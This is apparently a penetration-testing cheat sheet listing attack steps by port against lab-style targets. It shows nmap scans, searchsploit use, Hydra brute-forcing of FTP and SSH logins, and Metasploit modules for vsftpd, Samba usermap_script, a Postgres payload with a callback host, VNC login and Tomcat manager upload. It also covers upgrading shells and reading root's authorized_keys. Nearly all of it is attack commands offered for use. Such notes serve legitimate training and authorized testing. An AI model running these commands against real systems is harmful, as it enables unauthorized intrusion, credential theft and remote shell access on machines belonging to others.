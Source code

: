 #### Nmap

 nmap -Pn -sV Target
 
 nmap -sV -sC 10.10.91.172 -Pn

 #### Searchsploit

 searchsploit service version
 
 searchsploit -m number_of_the_exploit(like 42233)
 
 Go to the directory where it is downloaded it would be the same directory.

 open it, cat 42233.txt and read it.

 


### Port 21
#### Hydra

sudo hydra -L user.txt -P pass.txt target ftp   ----> FTP

#### Vsftpd Exploit

In msfconsole

search vsftpd version

use exploit/unix/ftp/
show options
set RHOSTS ip
exploit

### Port 22

#### Hydra

hydra -L user.txt -P pass.txt 192.168.1.103 ssh

#### SSH BFA
use **auxiliary/scanner/ssh/ssh_login**
show options

set RHOSTS ip

set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt

or 

set USER_FILE /usr/share/user.txt
set PASS_FILE /usr/share/pass.txt

or 

**set STOP_ON_SUCCESS true**

set VERBOSE true

exploit

If sessions opened type
sessions
sessions 1 or 2 or whatever the shell opened is or sessions -u 1 or 2
shell (For better view type shell, it will look like linux)

Connect: ssh username@ip

### Port 139 & 445 (Samba)

use **exploit/multi/samba/usermap_script**
show options
set RHOSTS ip
exploit

id , uname -a, python -c 'import pty:pty.spawn("/bin/bash")'

### Port  5432 (Postgres)

search postgres
use **exploit/linux/postgres/postgres_payload**
set RHOSTS ip
set LHOST ip
run
sessions -u 1 or 2 or whichever

### Port 5900 (VNC)

use **auxiliary/scanner/vnc/vnc_login**
set RHOSTS
exploit

after getting password go to terminal

vncviewer vulnerable_ip

For authorized ssh keys after login:
cd root
ls -la
cd .ssh
ls -la
cat authorized_keys

### Port 8180 (Not default port) (Tomcat)

use exploit/multi/http/tomcat_mgr_upload

show options

set RHOSTS

set RPORT 8180

set HttpUsername tomcat

set HttpPassword tomcat
